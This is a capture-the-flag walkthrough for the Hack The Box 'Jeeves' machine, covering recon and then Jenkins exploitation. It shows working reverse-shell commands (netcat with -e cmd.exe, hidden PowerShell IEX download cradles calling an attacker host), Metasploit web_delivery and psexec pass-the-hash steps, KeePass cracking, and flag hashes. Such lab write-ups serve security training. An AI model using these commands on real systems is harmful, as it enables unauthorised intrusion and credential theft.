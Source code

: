 1. Recon
```shell
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. Use Dirbuster find out the directories running on port 50000
3. /askjeeves/ has a Jekins app running
4. to get admin without authenticating:
```shell
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/
```

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type 
```shell
powershell wget "http://10.10.14.14/nc.exe" -outfile "nc.exe" 
nc.exe -e cmd.exe 10.10.14.14 9999
```
4. Start apache and place nc.exe for download 
5. Set up nc to listen up
6. Run the shell on jenkins 

Optional and recommended: you can also create a msfvenom shell and multihadler to catch it 

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
2. Set up an nc listener to recieve the shell
3. Spawn a meterpreter shell:
```shell
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```shell
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1
5. Install Keepass2 : apt-get install keepass2
6. NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf windows smb to connect using the keepass creds   
```shell
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```

8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt

| Flag | Hash |
|----|----|
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |

# References

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

https://www.hackingarticles.in/hack-the-box-challenge-jeeves-walkthrough/
